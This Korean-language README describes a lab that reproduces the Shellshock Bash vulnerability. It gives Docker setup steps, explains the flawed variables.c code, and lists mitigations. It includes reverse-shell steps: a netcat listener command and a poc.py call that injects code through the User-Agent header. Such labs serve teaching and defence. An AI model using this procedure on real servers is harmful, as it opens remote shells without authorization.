






# Shellshock CVE-2014-6271
Shellshock 

###
docker-compose.yml, poc.py 파일을 다운 받아 주세요
반드시 pip install requests 를 통해 requests 라이브러리를 다운받아 주세요!!!
uv를 사용하시는 분들은 uv를 통해 requests 라이브러리를 venv 안에 넣어주세요!!!
###

| CVE 공식 설명 | 
|---|
| GNU Bash 4.3 이전 버전에서는 환경 변수 값에 함수 정의 뒤에 오는 문자열을 처리하는 문제가 있었습니다. 이 취약점을 이용해 원격 공격자는 조작된 환경을 통해 임의 코드를 실행할 수 있었습니다. 이 취약점은 OpenSSH sshd의 ForceCommand 기능, Apache HTTP 서버의 mod_cgi 및 mod_cgid 모듈, 특정되지 않은 DHCP 클라이언트에서 실행되는 스크립트, 그리고 Bash 실행 권한과 환경 변수 설정이 서로 다른 권한 경계를 넘어 이루어지는 여러 상황에서 발견되었습니다. 이를 "ShellShock"이라고도 합니다. 참고: 이 문제에 대한 최초 수정은 잘못된 것이었으며, 잘못된 수정 이후에도 여전히 존재하는 이 취약점을 해결하기 위해 CVE-2014-7169가 지정되었습니다. |

| 환경 구성 |
| --- |

도커 파일 구성
| os | web server | bash version
| --- | --- | --- |
| Debian 10 | Apach | 4.2.37(1) |

docker compose up 명령어를 수행했을 때 
웹서버를 연 상태를 유지할 수 있도록 Dockerfile 작성

Dockerfile 의 os, apach 등 다 외부의 저장소에서 다운로드 한 것이기에 
빌드한 이미지를 태그를 붙여 도커 허브에 push 한 후 그 이미지를 docker-compose.yml 파일에서 명시해
원본이 삭제되어도 문제없도록 조치하였습니다. 

| 취약 조건 |
| --- |

쉘쇼크 취약점이 존재하는 Bash 쉘이 필요합니다. 저는 4.2.37(1) 버전 bash 쉘을 다운받아 사용했습니다.

추가로 코드를 환경변수에 등록한 후 bash를 호출하여야 코드가실행되기에 bash를 호출할 수 있는 프로그램이 존재해야 합니다.
웹서버에서 클라이언트의 요청을 처리하기 위해 사용했던 CGI 프로그램을 다운 받았습니다.
CGi는 규격(RFC 3875)에 따라 웹 서버는 브라우저가 보낸 모든 헤더 정보를 리눅스 환경변수에 넣어서 처리하도록 설계되어 있습니다.

이 조건 하에서 웹 서버가 리퀘스트를 보내고 그 헤더 정보가 환경 변수에 저장됩니다 (CGI 규격에 의해)
환경 변수에 함수 정의 뒤 오는 문자열이 실행되는 취약점이 존재하는 bash 쉘을
CGI가 호출함으로서 공격이 완성됩니다

리퀘스트 ( User-Agent 헤더에 코드 심어서 보내기 )  -> CGI가 bash 호출 -> 리버스쉘 연결

| 재현 절차 | 
| --- |

1. docker compose up 명령어를 통해 웹서버를 실행시킨다.
2. 새로운 터미널을 열어 nc -lvp 4444 로 리스닝 시작

3. poc.py 를 실행하여 리버스 쉘을 연결합니다.
   - uv run ./poc.py -url http://localhost:8080/cgi-bin/web.sh -lhost your_ip -lport 4444 ( 꼭 4444 아니여도 됩니다. 어느 포트로 리스닝하는지에 따라 달라집니다 )
   - python3 ./poc.py -url http://localhost:8080/cgi-bin/web.sh -lhost your_ip -lport 4444 ( uv를 사용하지 않으시는 분들은 python3 명령어를 사용해 실행해주세요!!! )

| 실현 결과 | 
| --- | 

재현 절차 2번에서 리스닝하던 터미널은  컨테이너 내부 배쉬쉘과 연결되어 whoami, id 등 명령어를 실행할 수 있습니다.

| 취약점 발생 원인 | 
| --- |

      '''
    if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))
    {
    string_length = strlen (string);
    temp_string = (char *)xmalloc (3 + string_length + char_index);
    
    strcpy (temp_string, name);
    temp_string[char_index] = ' ';
    strcpy (temp_string + char_index + 1, string);

    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
   
    // 이하 생략 
    '''

취약점 원인은 bash 쉘  코드 중 variables.c 코드 내부의 initialize_shell_variables 함수에 있습니다.
이 함수조차 너무 길어 핵심 부분만 잘라 보았습니다.

    '''
    if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))
    '''
위 if문은 STREQN ("() {", string, 4) 을 통해 첫 4글자가 "() {" 인지 확인하고 있습니다.
만약 일치한다면 함수로 취급하게 되는거죠. 
놀랍게도 이 이후 string에 대한 필터링은 없기에 문제가 되었습니다.

    '''
    strcpy (temp_string, name);
    temp_string[char_index] = ' ';
    strcpy (temp_string + char_index + 1, string); 
   '''
위 코드는 이름과 값을 합치는 과정입니다. 위에서 검사한 값이니 string 은 () { 로 시작하는 형태이고
name 은 환경 변수의 이름이 되겠습니다.

이렇게 환경변수의 이름과 값을 조합하여 아래 코드로 넘겨 파싱하게 됩니다.
필터가 위에 () { 를 검사하는 구간만 있었기 때문에 함수 뒤에 whoami, id, pwd 등 명령어를 붙여도 전부 실행됩니다.

    '''
    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
     '''

| 대응 방안 |
| --- |
쉘쇼쿠 취약점으로부터 안전한 버전으로 Bash 버전 업그레이드 한다.
Bash 쉘을 호출하는 프로그램을 사용하지 않는다.
